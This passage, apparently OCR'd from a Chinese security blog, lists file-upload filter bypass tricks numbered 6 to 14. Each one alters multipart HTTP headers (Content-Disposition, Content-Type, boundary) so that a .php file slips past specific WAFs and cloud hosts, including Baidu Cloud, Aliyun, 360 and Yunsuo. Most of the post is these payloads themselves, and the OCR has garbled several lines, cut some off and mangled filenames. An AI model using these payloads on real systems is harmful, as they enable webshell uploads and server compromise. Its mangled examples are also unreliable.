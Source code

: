 ```
`<form action="https://www.xxx.com/xxx.asp(php)" method="post"``multipart/form‐data">``<input >``<input >``<input type="submit" >``</form>`
```

  

6.HTTP header 属性值绕过

```
`Content-Disposition: form-data;` `//通过替换form-data 为*来绕过``Content-Disposition: *;` 
```

  

7.HTTP header 属性名称绕过

```
`源代码:``Content-Disposition: form-data; Content-Type: image/png``绕过内容如下：``Content-Disposition: form-data; 085733uykwusqcs8vw8wky.png``C.php"``删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php".`
```

  

8.等效替换绕过

```
`原内容：``Content-Type: multipart/form-data; boundary=---------------------------471463142114``修改后:``Content-Type: multipart/form-data; boundary =---------------------------471463142114``boundary后面加入空格。`
```

  

9.修改编码绕过

```
使用UTF-16、Unicode、双URL编码等等
```

  

10.百度云上传绕过  

```
`Content-Disposition: form-data;` `或者：``filename='1.php(回车)'`
```

11.阿里云上传绕过

```
`源代码：``Content-Disposition: form-data; Content-Type: image/jpeg``修改如下：``Content-Disposition: form-data;` `将=号这里回车删除掉Content-Type: image/jpeg即可绕过。`
```

12.360主机上传绕过

```
`源代码:``Content-Disposition: form-data; Content-Type: image/png``绕过内容如下：``Content- Disposition: form-data; 085733uykwusqcs8vw8wky.png``Content-Disposition 修改为 Content-空格Disposition`
```

  

13.===绕过

```
Content- Disposition: form-data; 
```

  

14.云锁上传绕过

```
`Content- Disposition: form-data; 123.``11.php"`
```

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)